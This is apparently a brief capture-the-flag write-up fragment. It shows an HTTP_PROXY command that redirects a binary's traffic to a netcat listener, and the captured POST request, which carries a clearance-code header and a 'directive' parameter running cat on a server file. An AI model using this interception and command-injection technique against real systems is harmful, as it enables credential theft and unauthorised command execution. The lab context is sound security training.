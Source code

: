 ![image.png](image%205.png)

**COMMAND:**

```jsx
HTTP_PROXY=10.2.37.37:41122 ./badactors-list
```

```jsx
listening on [any] 41122 ...
connect to [10.2.37.37] from (UNKNOWN) [10.10.41.58] 48000
POST http://UNATCO:23023/ HTTP/1.1
Host: UNATCO:23023
User-Agent: Go-http-client/1.1
Content-Length: 49
Clearance-Code: 7gFfT74scCgzMqW4EQbu
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

directive=cat+%2Fvar%2Fwww%2Fhtml%2Fbadactors.txt

```
